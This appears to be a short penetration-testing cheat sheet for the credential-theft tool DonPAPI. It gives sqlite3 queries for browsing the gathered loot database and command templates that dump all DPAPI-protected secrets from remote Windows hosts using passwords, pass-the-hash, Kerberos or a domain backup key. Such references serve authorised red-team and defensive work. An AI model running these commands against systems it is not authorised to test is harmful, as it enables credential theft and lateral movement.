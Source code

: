 # DonPAPI

% DonPAPI, dpapi

#plateform/linux  #target/remote  #cat/CREDENTIAL-ACCESS/DPAPI

## list gathered
```bash
sqlite3  -readonly donpapi.db -cmd '.tables' ".exit"
```

## count gathered
```bash
sqlite3  -readonly donpapi.db -cmd 'select count(1) from <table>;' ".exit"
```

## show gathered
```bash
sqlite3  -readonly donpapi.db -cmd 'select * from <table>;' ".exit"
```

## Dump all secrets (localadmin creds)
```
DonPAPI <target>/<user>:<password>@<target>
```

## DonPAPI - Dump all secrets (localadmin pth)
```
DonPAPI --hashes :<NT> <target>/<user>@<target>
```

## Dump all secrets (kerberos)
```
DonPAPI -k <domain_fqdn>/<user>@<target>
```


## DonPAPI - Dump all secrets with Domain Admin and PVK (pth)
run dpapi.py to get PVK
```
DonPAPI -pvk <pvk_path> -o <out_path> --hashes <LM>:<NT> <domain_fqdn>/<user>@<target>
```